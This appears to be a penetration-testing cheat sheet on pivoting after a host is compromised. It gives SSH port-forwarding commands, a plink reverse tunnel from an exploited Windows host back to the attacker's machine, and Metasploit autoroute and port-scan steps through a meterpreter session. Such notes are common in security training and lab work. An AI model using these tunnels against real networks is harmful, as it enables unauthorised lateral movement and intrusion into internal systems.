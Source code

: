 Useful Resource:

> https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/

> https://artkond.com/2017/03/23/pivoting-guide/

> https://netsec.ws/?p=278

### SSH 

> ssh username@10.1.1.236 -D 1080

> ssh -L 9999:10.1.1.236:80 firefart@10.11.1.251

On the exploited/rooted machine, connect back to the attacker
All Local traffic on port 6666 will forward through the host
and be forwarded on again to port 3389 on the internal network

> ssh root@10.11.0.32 -R 6666:10.1.1.224:3389



### Using Plink:

Useful Guide: https://the.earth.li/~sgtatham/putty/0.60/htmldoc/Chapter7.html

After exploiting a Windows host, run this from the command line:
This creates a tunnel back to the attacking machine
It will forward all traffic on the attacking machine, port 4444
to Port 80 on the IP specified.

> plink.exe -ssh root@YOUR_ATTACKING_MACHINE -R 127.0.0.1:4444:10.2.2.218:80





### Using Metereter

After retrieving meterpreter shell on VICTIM1:

This will create a route to the host on the new network

> run autoroute -s 10.2.2.218

Background the session

```
use auxiliary/scanner/portscan/tcp
set rhosts 10.2.2.218
set threads 50
run
```

This will do a port scan of the host


